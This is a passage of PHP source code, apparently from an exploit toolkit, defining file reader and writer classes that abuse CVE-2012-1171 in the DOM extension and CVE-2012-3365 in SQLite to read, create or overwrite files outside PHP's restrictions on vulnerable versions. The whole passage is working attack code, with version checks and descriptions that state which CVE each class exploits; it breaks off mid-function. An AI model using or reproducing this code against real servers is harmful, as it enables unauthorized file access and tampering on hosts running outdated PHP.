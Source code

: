 ```php
	}
	function stream_open($path, $mode, $options, &$opened_path) {
		$this->filePath = substr($path, 10);
		$this->mode = $mode;
		return true;
	}
	public function stream_write($data) {
		$this->fileContent = $data;
		return strlen($data);
	}
}
 
class DOMFileWriter extends FileWriter {
	function isAvailable() {
		return extension_loaded('dom') && (version_compare(phpversion(), '5.3.10', '<=') || version_compare(phpversion(), '5.4.0', '='));
	}
	function getDescription() {
		return 'Write to and create a file exploiting CVE-2012-1171 (allow overriding). Notice the content should be in well-formed XML format.';
	}
	function write($content) {
		// set it to global resource in order to trigger RSHUTDOWN
		global $_DOM_exploit_resource;
		stream_wrapper_register('exploit', 'StreamExploiter');
		$_DOM_exploit_resource = fopen("exploit://{$this->getFilePath()}", 'w');
		fwrite($_DOM_exploit_resource, $content);
	}
}
 
class DOMFileReader extends FileReader {
	function isAvailable() {
		return extension_loaded('dom') && (version_compare(phpversion(), '5.3.10', '<=') || version_compare(phpversion(), '5.4.0', '='));
	}
	function getDescription() {
		return 'Read a file exploiting CVE-2012-1171. Notice the content should be in well-formed XML format.';
	}
	function read() {
		// set it to global resource in order to trigger RSHUTDOWN
		global $_DOM_exploit_resource;
		stream_wrapper_register('exploit', 'StreamExploiter');
		$_DOM_exploit_resource = fopen("exploit://{$this->getFilePath()}", 'r');
	}
}
 
class SqliteFileWriter extends FileWriter {
	function isAvailable() {
		return is_writable(getcwd())
			&& (extension_loaded('sqlite3') || extension_loaded('sqlite'))
			&& (version_compare(phpversion(), '5.3.15', '<=') || (version_compare(phpversion(), '5.4.5', '<=') && PHP_MINOR_VERSION == 4));
	}
	function getDescription() {
		return 'Create a file with custom content exploiting CVE-2012-3365 (disallow overriding). Junk contents may be inserted';
	}
	function write($content) {
		$sqlite_class = extension_loaded('sqlite3') ? 'sqlite3' : 'SQLiteDatabase';
		mkdir(':memory:');
		$payload_path = getRelativePath(getcwd() . '/:memory:', $this->getFilePath());
		$payload = str_replace('\'', '\'\'', $content);
```